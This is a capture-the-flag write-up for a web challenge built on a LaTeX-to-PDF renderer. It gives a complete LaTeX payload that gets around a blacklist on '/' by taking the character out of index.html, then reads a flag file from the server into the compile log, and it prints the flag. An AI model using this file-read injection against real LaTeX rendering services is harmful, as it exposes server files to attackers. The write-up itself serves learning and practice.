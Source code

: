 # Richard Simmons: Sweatin' in LaTeX
### Category: Web Exploitation
### Author: James Lowther (Articuler)

## Writeup
The website appears to be a renderer for LaTeX code. Writing LaTex and clicking "Generate PDF" gives a link to a rendered PDf. The output LOG of the LaTeX renderer will also be displayed. 

1. Looking at the source HTML indicates that we need to read the flag from a file found in `/sweatin/to/the/oldies/flag.txt`.
2. LaTeX has the ability to read files, however certain strings have been blacklisted. Most notably, `/` has been blacklisted making it challenging to create the path to read the file.
3. The `/` character however can be isolated from `index.html` using the `\StrMid` function from the `xstring` package.
4. Using this we can build the following LaTeX code that will read build the path and read the flag:
```
\documentclass{minimal}
\usepackage{xstring}

\def\a{sweatin}
\def\b{to}
\def\c{the}
\def\d{oldies}
\def\e{flag.txt}

\newread\file
\immediate\openin\file=index.html
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\immediate\read\file to\fileline
\StrMid{\fileline}{43}{43}[\s]
\immediate\message{\s}
\immediate\closein\file

\immediate\openin\file=\s\a\s\b\s\c\s\d\s\e
\loop\unless\ifeof\file
    \read\file to\fileline
    \message{\fileline}
\repeat
\closein\file

\begin{document}
\end{document} 
```

The flag can be found in the returned LOG data.

## Flag
magpie{r1ch4rd_l0v35_t0_5w34t}